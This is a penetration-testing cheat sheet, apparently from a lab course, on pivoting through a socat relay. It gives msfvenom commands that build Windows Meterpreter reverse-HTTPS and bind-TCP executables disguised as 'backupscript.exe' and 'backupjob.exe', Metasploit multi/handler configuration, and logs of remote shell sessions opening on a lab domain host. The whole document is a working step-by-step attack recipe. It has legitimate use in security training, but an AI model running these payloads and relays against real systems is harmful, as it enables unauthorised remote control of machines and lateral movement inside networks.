

## Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. 

### Starting Socat Listener

```bash
socat TCP4-LISTEN:8080,fork TCP4:<ip-address>:<port>
```

### Creating the Windows Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

### Starting MSF Console

```bash
sudo msfconsole
```

### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

### Establishing the Meterpreter Session

```bash
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

## Socat Redirection with a Bind Shell



### Creating the Windows Payload

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443
```

### Starting Socat Bind Shell Listener

```bash
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

### Configuring & Starting the Bind multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

### Establishing Meterpreter Session

```bash
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```